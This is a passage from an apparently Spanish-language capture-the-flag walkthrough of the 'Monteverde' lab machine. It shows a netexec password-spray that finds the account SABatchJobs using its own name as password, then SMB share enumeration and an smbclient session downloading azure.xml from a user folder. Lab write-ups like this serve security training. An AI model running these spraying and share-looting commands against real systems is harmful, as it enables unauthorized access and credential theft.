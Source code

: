 ```
# netexec smb 10.129.228.111 -u users -p users --continue-on-success | grep -v "STATUS_LOGON_FAILURE"

SMB                      10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB                      10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

`Listamos` los `recursos` compartidos

```
# netexec smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs' --shares
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.228.111  445    MONTEVERDE       [*] Enumerated shares
SMB         10.129.228.111  445    MONTEVERDE       Share           Permissions     Remark
SMB         10.129.228.111  445    MONTEVERDE       -----           -----------     ------
SMB         10.129.228.111  445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.129.228.111  445    MONTEVERDE       azure_uploads   READ            
SMB         10.129.228.111  445    MONTEVERDE       C$                              Default share
SMB         10.129.228.111  445    MONTEVERDE       E$                              Default share
SMB         10.129.228.111  445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.129.228.111  445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.129.228.111  445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.129.228.111  445    MONTEVERDE       users$          READ           
```

Nos `conectamos` por `smb` y nos `descargamos` el archivo `azure.xml`

```
# smbclient -U 'SABatchJobs%SABatchJobs' //10.129.228.111/users$       
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 14:41:18 2020
  ..                                  D        0  Fri Jan  3 14:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

                31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \mhope\> exit
```
